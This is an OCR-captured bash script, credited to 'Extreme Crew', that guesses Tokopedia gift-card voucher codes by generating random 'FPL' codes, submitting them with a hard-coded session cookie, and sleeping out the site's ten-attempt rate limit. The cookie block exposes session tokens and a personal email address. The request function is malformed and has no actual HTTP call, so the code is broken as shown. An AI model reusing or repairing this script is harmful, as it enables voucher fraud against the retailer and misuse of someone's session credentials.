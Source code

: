 #Coded By AchonkJust - Extreme Crew
#issued 07-Mar-2018
#ToloPedia Extrap auto redeem voucher
#Update!!
#!/bin/bash/sh
putih='\033[0m'
ijo='\e[38;5;82m'
merah='\e[38;5;196m'
 header(){
printf "${ijo}"
printf "     ___        __                _____ _____ _____   _       ________    \n"
printf "    /   | _____/ /_  ____  ____  / ___// ___// ___/  (_)_  __/ ____/ /_   \n"
printf "   / /| |/ ___/ __ \/ __ \/ __ \/ __ \/ __ \/ __ \  / / / / /___ \/ __/   \n"
printf "  / ___ / /__/ / / / /_/ / / / / /_/ / /_/ / /_/ / / / /_/ /___/ / /_     \n"
printf " /_/  |_\___/_/ /_/\____/_/ /_/\____/\____/\____/_/ /\__,_/_____/\__/     \n"
printf "==========ToloPedia Extrap Voucher=============/___/ By Extreme.Crew 	  \n"
}
clear
header
echo "1 Akun Max 10 kali generate"
#Edit Your Cookies Here
ngelog(){
Cookie:"_gorilla_csrf=MTUzOTY3MzE0MXxJa3AyYmpneFoxbEhkWFpyTWtvM1FWbG1URFprWTNOck5sQm1SV2xxSzJSdU5FOUZlQzh4YldsU09UZzlJZ289fNI8EuqM66GMJOyRcf_So8UXdTRODLPBBffnSDKhYPGK; __auc=52ddc683164d9af0cfb77a64029; _ga=GA1.2.932447055.1532660486; cto_lwid=33843b8d-4358-43f8-9d64-a2a15c8d59da; __sonar=13886207210975694451; __asc=e0e489c81667baba6278ce586e3; pulsa-aff=undefined; _gcl_au=1.1.754701325.1539673139; zarget_visitor_info=%7B%7D; _gid=GA1.2.319740559.1539673139; _ga=GA1.3.932447055.1532660486; _gid=GA1.3.319740559.1539673139; USER_DATA=%7B%22attributes%22%3A%5B%5D%2C%22subscribedToOldSdk%22%3Afalse%2C%22deviceUuid%22%3A%22de7d03b1-6452-45f0-a476-9a8273283405%22%2C%22deviceAdded%22%3Afalse%7D; SOFT_ASK_STATUS=%7B%22actualValue%22%3A%22not%20shown%22%2C%22MOE_DATA_TYPE%22%3A%22string%22%7D; HARD_ASK_STATUS=%7B%22actualValue%22%3A%22prompt%22%2C%22MOE_DATA_TYPE%22%3A%22string%22%7D; lang=id; _ID_autocomplete_=bd3259be67a3477fb137afb188940802; _BID_TOKOPEDIA_=91acaf97bb5a9afb7d6005e5c8e0ba0b; scs=%7B%22t%22%3A1%7D; ins-gaSSId=5d2a6179-118c-6667-4a62-d156e4d565bb_1539676761; shipping_notif=0; _SID_Tokopedia_=Dz8v_R90hqiTUteAdzeogoa2tT39USQvIWxC2IOzTSydkDTdz8TH1an4iQd5vz4AD5jR74OL9EvUQLIV9RY8alzLuFo7osJxytzqrL7WqysWJK0ACI45tNpCS6gael3_; state=eyJsZCI6Imh0dHBzOi8vd3d3LnRva29wZWRpYS5jb20vbXNpc2RuLXZlcmlmaWNhdGlvbi5wbD9hY3Rpb249bXNpc2RuLXZlcmlmaWNhdGlvbiIsInJlZiI6Imh0dHBzOi8vd3d3LnRva29wZWRpYS5jb20vbXNpc2RuLXZlcmlmaWNhdGlvbi5wbD9hY3Rpb249bXNpc2RuLXZlcmlmaWNhdGlvbiIsInV1aWQiOiIwMTVlYTNkMy1mZGI4LTRlN2ItYWFkZS02YmFlNTQ3ZDIxZDAiLCJ0aGVtZSI6ImRlZmF1bHQifQ; insUserData=%7B%22email%22%3A%22joseandreas232%40gmail.com%22%7D; l=1; vn_is=1; o_Pulsa=eyJsYXN0X2RlY2xpbmUiOiIiLCJyZWZlcnJlciI6Imh0dHBzOi8vcHVsc2EudG9rb3BlZGlhLmNvbS9naWZ0LWNhcmQvdG9rb3BlZGlhL3JlZGVlbS8iLCJpc19taWNyb3NpdGUiOmZhbHNlLCJ1dWlkIjoiZDFlMjRlYzUtYmExYy00ZTE5LTg2NGItZDZjOWE2MjRmZTk1IiwiaXNfYWpheCI6dHJ1ZX0; insdrSV=64; OPT_IN_SHOWN_TIME=1539673718439
Host: pulsa.tokopedia.com
Referer: https://pulsa.tokopedia.com/gift-card/tokopedia/redeem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
X-Requested-With: XMLHttpRequest

for generate in $(cat /dev/urandom | tr -dc 'A-Z0-9' | fold -w 13 | head -n 10); do
	base="FPL$generate"
	ok=$(ngelog $base | grep -Po "(?<=\"message\":\").*?(?=\"\,\")")
	echo "$base [ $ok ]"
	if [[ "$ok" =~ 'Anda telah mencoba lebih dari 10x' ]]; then
	secs=$((60 * 60))
		while [ $secs -gt 0 ]; do
   	echo -ne "Menunggu selama : $secs Untuk Auto Run :)\033[0K\r"
   	sleep 1
   	: $((secs--))
	done
	fi
done 
